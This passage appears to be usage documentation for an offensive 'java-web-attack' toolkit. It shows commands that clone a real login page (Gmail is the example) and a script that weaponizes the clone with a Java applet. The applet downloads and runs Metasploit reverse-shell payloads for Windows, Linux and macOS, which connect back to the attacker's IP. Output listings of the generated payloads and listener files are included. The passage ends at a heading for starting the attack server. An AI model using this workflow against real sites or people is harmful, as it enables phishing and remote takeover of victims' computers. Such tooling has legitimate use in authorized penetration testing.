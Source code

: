 Example 1: Cloning a URL
------------------------

The `clone.sh` script is a small convenience wrapper arount the following `wget` command:

`wget --no-check-certificate -O index.html -c -k -U "$chromeUA" "$1"`

Where `$chromeUA` is Google Chrome's User Agent string and `$1` is the URL to clone.

To run the script simply pass in the URL you wish to clone. For example, to clone Gmail run:

`/opt/java-web-attack#` **`./clone.sh https://gmail.com`**

        <<<snip>>>
        Saving to: ‘index.html’
            [ <=>         ] 74,115      --.-K/s   in 0.1s
        2015-02-21 02:52:13 (649 KB/s) - ‘index.html’ saved [74115]
        Converting index.html... 0-9
        Converted 1 files in 0.001 seconds.

As shown in the output, the file is saved to **index.html**. You can open this file in your web browser to see that
it was successfully cloned.

Example 2: Weaponizing a Web Page
---------------------------------

You need an HTML page and your IP address so that the payloads know where to connect. You can get an HTML page by cloning an existing site as in Example 1 or you can use the **example_gmail.html** file provided.

The basic usage of the `weaponize.py` script is to pass in the HTML file to modify and then the IP address of your ADHD machine.

`/opt/java-web-attack#` **`./weaponize.py index.html 172.16.215.138`**

        Generating Windows payload: windows/meterpreter/reverse_tcp...
        Generating Linux payload: linux/x86/meterpreter/reverse_tcp...
        Generating Mac OS X payload: osx/x86/shell_reverse_tcp...
        Weaponizing html...
        Creating listener resource script...
        All output written to the "output" directory.
        
        Run "serve.sh" to easily stand up a server.

All files generated are saved in the **output** directory. The directory should now contain these files:

* index.html - Copy of the HTML file you specified, now weaponized to deliver the Java applet payload.
* applet.jar - The Java applet that is inserted into the page.
* msf.exe - The Windows binary that the Java applet downloads and executes.
* nix.bin - The Linux binary that the Java applet downloads and executes.
* mac.bin - The Mac OS X binary that the Java applet downloads and executes.
* listeners.rc - A Metasploit resource file that starts listeners for each of the payloads for you.

Example 3: Starting the Attack Server
-------------------------------------
